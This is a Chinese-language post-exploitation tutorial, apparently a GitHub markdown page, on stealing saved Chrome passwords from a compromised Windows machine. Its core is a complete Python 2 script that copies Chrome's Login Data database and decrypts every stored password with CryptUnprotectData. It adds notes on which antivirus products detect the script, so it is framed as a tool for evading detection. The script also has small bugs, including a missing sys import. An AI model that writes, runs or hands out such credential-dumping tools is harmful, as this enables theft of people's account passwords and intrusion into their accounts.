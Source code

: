 <!-- TOC -->

- [前言](#前言)
- [Chrome](#chrome)
    - [Chrome密码抓取原理](#chrome密码抓取原理)
    - [Chrome密码抓取实现](#chrome密码抓取实现)
- [历史记录获取](#历史记录获取)
- [参考](#参考)

<!-- /TOC -->

## 前言
*每一次都在彷徨中挣扎，每一次……* 在后渗透阶段，获得权限后需要搜集目标系统的信息。信息越全面，越有助于进一步的渗透。对于Windows系统，用户浏览器往往包含非常有价值的信息。

## Chrome
### Chrome密码抓取原理
![](https://www.github.com/52stu/Images/raw/master/xsj/1572253732185.png)

![](https://www.github.com/52stu/Images/raw/master/xsj/1572253750873.png)


Chrome中保存的密码先被二次加密，然后被保存在SQLite数据库文件中，位置如下：`%LocalAppData%\Google\Chrome\User Data\Default\Login Data`，可以使用`SQLiteStudio`打开，如下图：

![](https://www.github.com/52stu/Images/raw/master/xsj/1572254243325.png)

选择Form view，查看十六进制格式，获得**Chrome通过Windows API CryptProtectData()实现**二次加密后的用户密码，如下图：

![](https://www.github.com/52stu/Images/raw/master/xsj/1572254275757.png)


**注：**

如果Chrome正在运行，无法使用SQLiteStudio打开数据库文件Login Data，可将该文件复制后再打开，用完再删除。

### Chrome密码抓取实现
首先，编写程序实现读取SQLite数据库文件，这里选择使用python实现

开源代码很多，所以这里只给出一个示例：
```python
from os import getenv
import sqlite3
import binascii
conn = sqlite3.connect(getenv("APPDATA") + "\..\Local\Google\Chrome\User Data\Default\Login Data")
cursor = conn.cursor()
cursor.execute('SELECT action_url, username_value, password_value FROM logins')
for result in cursor.fetchall():
    print (binascii.b2a_hex(result[2]))
```

读取得到的加密内容，还需要解密，通过[加密代码](https://github.com/scheib/chromium/blob/eb7e2441dd8878f733e43799ea77c2bab66816d3/chrome/browser/password_manager/password_store_win_unittest.cc#L107)我们可以得到解密的两个关键点：
1. 解密函数为CryptUnprotectData
2. 只有与加密数据的用户具有相同登录凭据的用户才能解密数据

**Chrome密码抓取完整代码**

```python
import os
import sqlite3
import win32crypt
import shutil


paths_data = [
    os.getenv("APPDATA") + "\..\Local\Google\Chrome\User Data\Default\Login Data",
    os.getenv("APPDATA") + "\google\chrome\User Data\Default\Login Data"
]

path_data_chrome = [path for path in paths_data if os.path.exists(path)]


def Readpass(path_data):
    try:
        
        path_data_copy = os.getcwd() + '\\chrome_data'
        shutil.copy(path_data,path_data_copy)
        
    except Exception,e:
        print e
        
    try:
        conn = sqlite3.connect(path_data_copy)
        cur = conn.cursor()
    except Exception, e:
        print e

    #####核心代码开始#####
    cur.execute('SELECT origin_url, username_value, password_value FROM logins')
    data_result = {}

    for res in cur.fetchall():
        try:
            password = win32crypt.CryptUnprotectData(res[2], None, None, None, 0)[1]
        except Exception,e:
            password = ''
        URL = res[0];username = res[1]
        #####核心代码结束#####


        tplt = "{0:60s} {1:20s} {2:20s}"
        print tplt.format(URL, username, password)
        print "----------------------------------------------------------------------------------------------------"
        
        
if __name__ == '__main__':    
    if len(path_data_chrome) < 1:
        print " Chrome is not Installed!!!"
        sys.exit()
    elif len(path_data_chrome) > 1:
        print('{0:60s} {1:20s} {2:20s}'.format("URL", "UserName", "PassWord"))
        print "===================================================================================================="
        for p in path_data_chrome:
            Readpass(p)
    else:
        print('{0:60s} {1:20s} {2:20s}'.format("URL", "UserName", "PassWord"))
        print "===================================================================================================="
        Readpass(path_data_chrome[0])
    if os.path.exists(path_data_chrome):
        try:
            os.remove(path_data_chrome)
        except Exception,e:
            print e

```

**杀软对抗测试**
* Avast_free_antivirus （20191029 杀）
* Malwarebytes premium trial 2 （20191029 过）



## 历史记录获取

## 参考


[渗透技巧——导出Chrome浏览器中保存的密码]()
https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E5%AF%BC%E5%87%BAChrome%E6%B5%8F%E8%A7%88%E5%99%A8%E4%B8%AD%E4%BF%9D%E5%AD%98%E7%9A%84%E5%AF%86%E7%A0%81/)

[渗透技巧——离线导出Chrome浏览器中保存的密码](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E7%A6%BB%E7%BA%BF%E5%AF%BC%E5%87%BAChrome%E6%B5%8F%E8%A7%88%E5%99%A8%E4%B8%AD%E4%BF%9D%E5%AD%98%E7%9A%84%E5%AF%86%E7%A0%81/)

[渗透技巧——利用Masterkey离线导出Chrome浏览器中保存的密码](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E5%88%A9%E7%94%A8Masterkey%E7%A6%BB%E7%BA%BF%E5%AF%BC%E5%87%BAChrome%E6%B5%8F%E8%A7%88%E5%99%A8%E4%B8%AD%E4%BF%9D%E5%AD%98%E7%9A%84%E5%AF%86%E7%A0%81/)